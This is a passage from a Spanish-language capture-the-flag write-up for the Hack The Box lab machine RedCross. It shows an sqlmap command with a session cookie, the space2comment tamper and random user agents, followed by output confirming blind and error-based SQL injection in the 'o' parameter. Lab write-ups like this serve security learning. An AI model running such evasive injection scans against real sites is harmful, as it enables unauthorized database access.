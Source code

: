 # SQLi

Después de explorar un poco el home (app), me di cuenta de la exposición de algunas variables, por lo que intente un sqli con algunos parámetros de evasión usando `sqlmap`:

```
xbytemx@laptop:~/htb/redcross$ sqlmap -u "https://intra.redcross.htb/?o=1&page=app" --cookie="PHPSESSID=le7n8htqei4pg268v1bm1vqtq1; LANG=EN_US; SINCE=1552972200; LIMIT=10; DOMAIN=intra;" --tamper=space2comment --random-agent
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.3.2#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:11:08 /2019-03-18/

[23:11:08] [INFO] loading tamper module 'space2comment'
[23:11:08] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Windows; U; Windows NT 5.2; en-US; rv:1.8.0.12) Gecko/20070508 Firefox/1.5.0.12' from file '/usr/share/sqlmap/txt/user-agents.txt'
[23:11:08] [INFO] testing connection to the target URL
[23:11:09] [INFO] testing if the target URL content is stable
[23:11:10] [INFO] target URL content is stable
[23:11:10] [INFO] testing if GET parameter 'o' is dynamic
[23:11:11] [INFO] GET parameter 'o' appears to be dynamic
[23:11:11] [INFO] heuristic (basic) test shows that GET parameter 'o' might be injectable (possible DBMS: 'MySQL')
[23:11:13] [INFO] heuristic (XSS) test shows that GET parameter 'o' might be vulnerable to cross-site scripting (XSS) attacks
[23:11:13] [INFO] testing for SQL injection on GET parameter 'o'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
[23:11:18] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[23:11:45] [WARNING] reflective value(s) found and filtering out
[23:11:52] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[23:11:53] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[23:12:21] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[23:12:45] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[23:13:16] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[23:13:36] [INFO] GET parameter 'o' appears to be 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause' injectable (with --string="Web")
[23:13:36] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[23:13:37] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[23:13:37] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[23:13:38] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[23:13:39] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[23:13:39] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[23:13:40] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[23:13:41] [INFO] GET parameter 'o' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
```